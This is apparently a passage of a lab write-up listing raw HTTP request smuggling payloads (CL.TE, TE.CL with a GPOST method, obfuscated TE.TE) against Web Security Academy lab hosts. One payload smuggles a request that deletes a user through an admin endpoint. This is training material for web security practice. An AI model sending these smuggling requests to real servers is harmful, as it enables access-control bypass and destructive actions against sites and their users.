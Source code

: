 ```
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
2. Use unsupported Method GPOST (TE.CL)  
```
POST / HTTP/1.1
Host: 0a4d007b048d4832c0afb01800b700ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
3. Obfuscating TE.TE  
```
POST / HTTP/1.1
Host: 0a8800ee047d6d24c0c255e700a6009c.web-security-academy.net
Connection: close
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: xchunked
Content-Length: 4

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
4. Detecting CL.TE  
```
POST / HTTP/1.1
Host: 0a6f00870409bd9bc05054ca00c900d9.web-security-academy.net
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x
```
